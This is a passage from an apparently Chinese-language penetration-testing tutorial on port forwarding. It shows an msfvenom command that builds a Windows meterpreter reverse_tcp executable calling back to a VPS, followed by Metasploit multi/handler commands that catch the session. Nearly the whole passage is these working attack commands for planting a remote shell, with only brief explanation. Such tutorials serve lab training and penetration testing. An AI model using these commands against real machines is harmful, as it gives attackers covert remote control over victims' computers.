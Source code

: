 确认kali和VPS之间通信没问题之后，回到本地的kali中生成payload（payload回连的IP写VPS的IP）

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=*.*.*.*[payload的回连ip要设成vps的] LPORT=8080 -f exe -o /root/Desktop/shell.exe
```

![](/img/hack/%E7%AB%AF%E5%8F%A3%E8%BD%AC%E5%8F%91/lcx/msfvenom.png)

paylaod生成之后，开始监听：

```bash
msf > use exploit/multi/handler 
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 本机的vpn内网IP 
msf exploit(handler) > set lport 8080
msf exploit(handler) > exploit -j
```
![](/img/hack/%E7%AB%AF%E5%8F%A3%E8%BD%AC%E5%8F%91/lcx/msf.png)
